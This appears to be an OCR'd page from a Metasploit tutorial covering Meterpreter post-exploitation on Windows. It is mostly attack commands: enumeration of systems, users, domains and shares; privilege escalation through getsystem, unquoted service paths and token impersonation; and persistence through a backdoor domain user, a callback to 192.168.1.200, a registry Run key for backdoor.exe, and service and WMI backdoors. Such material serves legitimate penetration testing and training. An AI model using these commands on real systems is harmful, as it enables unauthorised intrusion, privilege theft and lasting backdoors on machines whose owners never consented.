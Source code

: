 ### Advanced Post-Exploitation Modules

Metasploit includes hundreds of post-exploitation modules for comprehensive system assessment.

#### System Enumeration

```bash
# General system enumeration
meterpreter > run post/windows/gather/enum_system

# Application enumeration
meterpreter > run post/windows/gather/enum_applications

# Logged-in users
meterpreter > run post/windows/gather/enum_logged_on_users

# Domain information
meterpreter > run post/windows/gather/enum_domain

# Network share enumeration
meterpreter > run post/windows/gather/enum_shares
```

#### Privilege Escalation Modules

```bash
# Check for exploitable vulnerabilities
meterpreter > run post/multi/recon/local_exploit_suggester

# Windows privilege escalation checks
meterpreter > run post/windows/gather/enum_patches
meterpreter > run post/windows/escalate/getsystem

# Unquoted service path exploitation
meterpreter > run post/windows/escalate/unquoted_service_path

# Token impersonation
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "DOMAIN\\User"
```

#### Persistence Mechanisms

```bash
# Add a backdoor user
meterpreter > run post/windows/manage/add_user_domain USERNAME=hacker PASSWORD=P@ssw0rd

# Scheduled task persistence
meterpreter > run persistence -X -i 60 -p 443 -r 192.168.1.200

# Registry persistence
meterpreter > reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v Backdoor -d '"C:\\Windows\\System32\\backdoor.exe"'

# Service persistence
meterpreter > run post/windows/manage/persistence_service

# WMI persistence
meterpreter > run post/windows/manage/wmi_persistence

# Backdoor installation
meterpreter > run post/windows/manage/backdoor_install
```
